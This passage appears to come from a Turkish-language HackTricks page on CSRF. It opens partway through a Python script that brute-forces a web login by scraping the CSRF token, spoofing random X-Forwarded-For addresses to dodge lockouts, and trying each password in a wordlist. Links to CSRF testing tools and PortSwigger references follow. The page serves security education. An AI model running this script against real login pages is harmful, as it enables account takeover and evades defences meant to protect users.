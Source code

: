 ```python
r = requests.get(URL)
csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
csrf = csrf.group(1)
session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
return csrf, session_cookie

def login(user, password):
print(f"{user}:{password}")
csrf, cookie = init_session()
cookies = {SESSION_COOKIE_NAME: cookie}
data = {
"tokenCSRF": csrf,
"username": user,
"password": password,
"save": ""
}
headers = {
"X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
}
r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
if "Username or password incorrect" in r.text:
return False
else:
print(f"FOUND {user} : {password}")
return True

with open(PASS_LIST, "r") as f:
for line in f:
login(USER, line.strip())
```
## Araçlar <a href="#tools" id="tools"></a>

- [https://github.com/0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe)
- [https://github.com/merttasci/csrf-poc-generator](https://github.com/merttasci/csrf-poc-generator)

## Referanslar

- [https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)
- [https://portswigger.net/web-security/csrf/bypassing-token-validation](https://portswigger.net/web-security/csrf/bypassing-token-validation)
- [https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses)
- [https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html](https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html)

​

{{#include ../banners/hacktricks-training.md}}
